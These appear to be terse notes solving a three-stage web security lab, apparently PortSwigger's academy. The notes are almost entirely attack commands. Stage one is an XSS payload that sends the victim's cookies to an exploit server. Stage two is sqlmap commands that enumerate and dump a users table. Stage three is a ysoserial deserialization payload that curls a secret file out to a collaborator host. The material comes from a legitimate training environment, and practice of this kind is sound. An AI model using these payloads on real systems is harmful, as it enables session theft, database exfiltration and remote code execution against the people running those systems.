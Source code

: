 stage 1

"-Function`X${document.location="https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc="+document.cookie}```-"

url encode key chars: https://meyerweb.com/eric/tools/dencoder/

<script>
document.location = "https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/?find=%22-Function`X${document.location=%22https://exploit-0a600087031e75f78385ccb001050090.exploit-server.net/aabbcc=%22%2document.cookie}```-%22"
</script>


stage 2

python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=5 --risk=1 --dbs --tables


python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=5 --risk=1 -D public -T users --columns --technique=E


python3 sqlmap.py -u 'https://0af400410395756e83d0cdfc003a001a.web-security-academy.net/filtered_search?find=aaa&organize=5&order=ASC&BlogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=cEso0L5j7hBB4VRe6b0VWzn0Mg0t5L2L; _lab=46%7cMCwCFHIogSDCRbi6BxN5TkzOiPmbkYeMAhQygfZsRV7AjYQi9KssmRXsdi2%2bXINzcJom37sMx%2beKEd5brcaseAnv%2bxkcEeEykgahLvnV%2fcm%2fSY5bhPoJXvva%2beXU%2b6wTu5DMTIV%2bqEighcTTKCB%2feIuKbd00hUW2ToUKG6FxR9%2bQIMg%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: cross-site'  -p 'order' -batch --random-agent --level=5 --risk=1 -D public -T users --dump


stage 3

java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar "CommonsCollections2" 'curl https:/zfi3yzddbe7y48vjbmp79z27oyupii67.oastify.com -d @/home/carlos/secret' | gzip -c | base64 -w 0

